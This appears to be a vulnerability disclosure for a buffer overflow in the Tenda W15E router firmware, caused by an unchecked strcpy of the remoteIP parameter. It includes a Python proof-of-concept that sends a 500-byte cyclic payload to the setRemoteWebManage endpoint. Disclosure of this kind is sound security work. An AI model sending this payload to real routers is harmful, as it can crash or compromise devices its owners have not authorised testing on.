 # W15E buff overflow vulnerability
 
Vendor: Tenda W15E  
Version: US_W15EV1.0br_V15.11.0.7(752_816)_CN_TDC

Description：There is a buff overflow vulnerability in W15E router. The function is 0x00098F2C. Ip gets the content of remoteIP and uses the strcpy without check the length, which result in buffer overflow.

The static analysis is as follows:
![image](image/3.png)

POC:
```py
import requests
from pwn import *

url='http://192.168.100.2/goform/setRemoteWebManage'
payload=cyclic(500)
header={
'Host': '192.168.100.2',
'User-Agent':'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0',
'Accept':'*/*',
'Accept-Language':'en-US,en;q=0.5',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8',
'X-Requested-With':'XMLHttpRequest',
'Origin':'http://192.168.100.2',
'Connection':'close',
'Referer':'http://192.168.100.2/mac_filter.html?random=0.008005922687726486&',
'Cookie':'password=17399d7fb9cf0644a1f50f015116919dcabazx'} 

data1 =enable=true&remotetype=test&remoteWan=0000&remotePort=1000&remoteIP=%s'%payload
ret = requests.post(url = url ,headers = header,data = data1, verify=False)
```
The exploitation is as shown
![image](image/3-use.png)
